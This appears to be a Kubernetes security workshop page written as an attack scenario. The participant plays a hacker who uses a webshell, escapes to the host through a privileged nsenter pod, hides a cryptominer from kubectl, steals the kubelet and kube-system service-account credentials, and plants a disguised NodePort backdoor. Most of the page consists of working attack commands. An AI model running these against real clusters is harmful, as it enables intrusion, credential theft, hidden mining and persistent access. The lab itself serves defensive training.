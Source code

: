 # Persistence: Scenario 2 Attack

## Backstory

### Name: __DarkRed__

* Highly-Skilled
* Sells Exfiltrated Data for $$
* Evades detection and employs persistence
* Uses env-specific tooling
* Creates bespoke payloads
* Expert Kubernetes knowledge

### Motivations

* __Red__ notices that the website is gone and the crypto-miners have stopped reporting in.
* __Red__ asks __DarkRed__ for help trying to get back into the Kubernetes cluster and gives __DarkRed__ the IP address.
* __Red__ will split the revenue if __DarkRed__ can get the miners back up and running.

## Initial Foothold

Seeing that the URL included port `31337` and that __Red__ said it was a Kubernetes `cluster`, it was likely to be exposed via a `NodePort` `service`. With this information she has a feeling that more `services` might still be exposed to the web this way. __DarkRed__ starts with indirect enumeration, such as searching on shodan.io, and follows up with direct portscanning via `nmap`.

To see what she'd see, from the Cloud Shell Terminal, scan the hundred ports around 31337 using a command similar to "nmap -sT -A -p 31300-31399 -T4 -n -v -Pn your-ip-address-goes-here". Be absolutely sure to scan your assigned IP address.

Your Cloud Shell has a little script to help:
```console
./attack-2-helper.sh
```

This scan confirms __DarkRed's__ suspicion that more services were present in this `cluster`. They all look like webservers, so explore them briefly with your browser.

__DarkRed__ notices that two of the services look like the company's main product, but the third is a juicy ops dashboard. Her intuition says that the dashboard is probably not maintained as carefully as the real product, and she focuses her attention there. Using tools such as `dirb`, `sqlmap`, `nikto`, and `burp`, she explores the dashboard, finds a vulnerability in a common web-development library, and exploits it to gain remote code execution on the server. For convenience, __DarkRed__ installs a webshell for further exploration.

Now, let's become __DarkRed__ and leverage this new access:

## Deploying Miners

The webshell can be found at <a href="http://your-ip:31336/webshell/" target="_blank">http://your-ip:31336/webshell/</a>, and uses your workshop credentials as before.

Your Cloud Shell has a little script to help:
```console
attack-2-helper.sh
```

Run a few commands to make sure it's working and gather some basic information:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

Review the information. Check for Kubernetes access, and find the limits of our permissions:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod 555 kubectl
kubectl get pods
kubectl get pods --all-namespaces
kubectl get nodes
kubectl auth can-i --list
```

Now that we've reviewed the basic limits of our access, let's see if we can take over the host. If we can, that will give us many more options to fulfill our nefarious whims.

Using <a href="https://twitter.com/mauilion/status/1129468485480751104" target="_blank">a neat trick from twitter</a>, let's attempt to deploy a container that gives us full host access:

```console
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see `"hostPID": true`, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different `mount` namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host `mount` namespace! The result is similar to doing a `HostPath` mount and `chroot`-ing into it, but this works at a lower level, breaking down the `mount` namespace isolation completely. The `privileged` security context is necessary to prevent a permissions error accessing `/proc/1/ns/mnt`.

Convince yourself that you're really on the host, using some of our earlier enumeration commands:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

It's been said that "if you have to SSH into a server for troubleshooting, you're doing Kubernetes wrong", so it's unlikely that cluster administrators are SSHing into nodes and running commands like `docker ps` directly.  By deploying our bitcoinero container via Docker on the host, it will show up in a `docker ps` listing.  However, Docker is managing the container directly and not the `kubelet`, so the malicious container _won't show up in a `kubectl get pods`_ listing.  Without additional detection capabilities, it's likely that the cluster administrator will never even notice.

First we verify Docker is working as expected, then deploy our cryptominer, and validate it seems to be running.

```console
docker ps
```

```console
docker run -d securekubernetes/bitcoinero "./moneymoneymoney -c1 -l10"
```

```console
docker container ls
```

## Digging In
Now that __DarkRed__ has fulfilled her end of the agreement and the miners are reporting in again, she decides to explore the cluster. With root access to the host, it's easy to explore any and all of the containers. Inspecting the production web app gives access to a customer database that may be useful later -- she grabs a copy of it for "safekeeping".

It would be nice to leave a backdoor for future access. Let's become __DarkRed__ again and see what we can do:

First, let's steal the kubelet's client certificate, and check to see if it has hightened permissions:

```console
ps -ef | grep kubelet
```

Note the path to the kubelet's kubeconfig file: /var/lib/kubelet/kubeconfig

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system
```

Looks good! Let's try it:

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig run testing --image=busybox --rm -i -t -n kube-system --command echo "success"
```

Oh no! This isn't going to work. Let's try stealing the default kube-system service account token and check those permissions. We'll need to do a little UNIX work to find them, since we're not exactly using the public API.


```console
TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""
```

```console
kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces
```
Yes, this looks better! We save that token in our PalmPilot for later use, and publish a NodePort that will let us access the cluster remotely in the future:

```console
cat <<EOF | kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
apiVersion: v1
kind: Service
metadata:
  name: istio-mgmt
  namespace: kube-system
spec:
  type: NodePort
  ports:
    - protocol: TCP
      nodePort: 31313
      port: 31313
      targetPort: $KUBERNETES_SERVICE_PORT
---
apiVersion: v1
kind: Endpoints
metadata:
  name: istio-mgmt
  namespace: kube-system
subsets:
  - addresses:
      - ip: `sed -n 's/^  *server: https:\/\///p' /var/lib/kubelet/kubeconfig`
    ports:
      - port: $KUBERNETES_SERVICE_PORT
EOF
```

Press control-d to exit (and delete) the `r00t` pod.

If you like, you may validate that external access is working, using cloud shell:

```console
if [ -z "$TOKEN" ]; then
  echo -e "\n\nPlease paste in the TOKEN=\"...\" line and try again."
else
  EXTERNAL_IP=`gcloud compute instances list --format json | jq '.[0]["networkInterfaces"][0]["accessConfigs"][0]["natIP"]' | sed 's/"//g'`
  kubectl --token "$TOKEN" --insecure-skip-tls-verify --server "https://${EXTERNAL_IP}:31313" get pods --all-namespaces
fi
```

Now we have remote Kubernetes access, and our associate's bitcoinero containers are invisible. All in a day's work.
